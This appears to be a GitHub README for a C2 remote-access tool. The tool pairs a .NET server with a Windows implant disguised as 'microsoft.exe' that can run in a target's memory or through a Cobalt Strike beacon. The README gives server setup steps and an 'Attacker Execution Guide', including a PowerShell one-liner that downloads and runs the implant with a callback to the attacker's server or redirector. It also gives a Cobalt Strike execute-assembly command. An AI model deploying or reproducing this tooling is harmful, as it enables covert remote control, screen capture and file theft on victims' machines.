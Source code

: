 # Remote Process Tool
[![build succeeded](https://img.shields.io/badge/build-succeeded-brightgreen.svg)](https://github.com/its-mr-monday/.NET-Remote-Process-Tool/releases/tag/1.0.0)

	Remote Process Tool is a C# .Net Core Server and .Net Framework Client
	The tool can be staged to be run in targets memory
	The tool can also be executed through a Cobalt Strike beacon

# C2 Server Setup
# Linux Server Guide

	- Linux server ELF is found in Server/linux-x64/publish/DLServer

	- Inside the ELF folder create 4 directories called "screenshots", "uploads", "downloads", "exe"

	- chmod DLServer and run it by calling ./DLServer [port]

	- This will start a TcpListener on port "port" *If port is left blank the default port is set to 8080*


# Windows Server Guide

	- Windows server EXE is found in Server\win-x64\publish\DLServer.exe

	- Inside the EXE folder create 4 directories called "screenshots", "uploads", "downloads", "exe"

	- This can be run by calling .\DLServer.exe [port]

	- This will start a TcpListener on port "port" *If port is left blank the default port is set to 8080*


# Target Execution Guide

	- The target EXE is found in the "WinBinary" directory labelled as "microsoft.exe"

	- If you are using a redirector run the command ".\microsoft.exe [redirector_ip] [redirector_port]"

	- If you are doing a straight callback to your server run the command ".\microsoft.exe [your_ip] [your_port]" *Note this is not recommended*


# Attacker Execution Guide (No Cobalt)

	- Setup your redirector to listen and forward to your DLServer

	- Host the windows executable on a HTTP server

	- Run the following command on the client to download and execute:
		"Invoke-WebRequest "hosted_exe" -OutFile microsoft.exe;.\microsoft.exe [server/redirector ip] [server/redirector port]"

# Cobalt Beacon Guide

	- Once you have a beacon you may execute the following Cobalt command to run the executable in memory:
		"execute-assembly [location_to_exe] [server/redirector ip] [server/redirector port]" 	
